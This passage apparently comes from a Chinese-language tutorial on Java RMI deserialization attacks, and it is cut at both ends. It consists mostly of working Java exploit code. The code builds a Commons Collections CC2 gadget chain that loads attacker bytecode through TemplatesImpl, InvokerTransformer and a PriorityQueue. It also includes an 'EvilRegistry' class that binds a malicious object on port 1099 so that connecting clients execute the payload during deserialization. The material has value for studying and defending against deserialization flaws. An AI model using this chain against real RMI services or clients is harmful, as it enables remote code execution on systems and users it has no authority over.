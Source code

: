 ```java
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());


        InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", null, null);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1)); //改为ConstantTransformer,把利用链断掉
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(1);

        ///Class transformingComparatorClass = TransformingComparator.class;  //也可以
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator, invokerTransformer);

        return priorityQueue;
    }

}
```

## 注册中心攻击客户端

如果注册中心是攻击者，客户端是正常请求。但是，注册中心返回的不是所请求服务端的Stub，而是我们构造的恶意对象的话，客户端就会被攻击。

实现就是在注册中心绑定一个恶意对象服务。

封装恶意对象是因为bind的第二个参数必须是Remote对象。

还要注意一点是，在客户端进行反序列化时EvilObj会报错（因为客户端没有这个类），但是反序列化从里往外，在报错之前我们的恶意对象被反序列化执行了就可以了。

```java
public class EvilRegistry {
    public static void main(String[] args) throws Exception {
        new RemoteObjImpl();   //如果不发布一个远程对象程序就运行结束了
        Registry registry = LocateRegistry.createRegistry(1099); //创建注册中心
        Remote evilObj = new EvilObj();
        registry.bind("remoteObj", evilObj);   //绑定 第二个参数放恶意对象
    }

    public static PriorityQueue getEvilPriorityQueue() throws Exception {
        //CC2
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);
```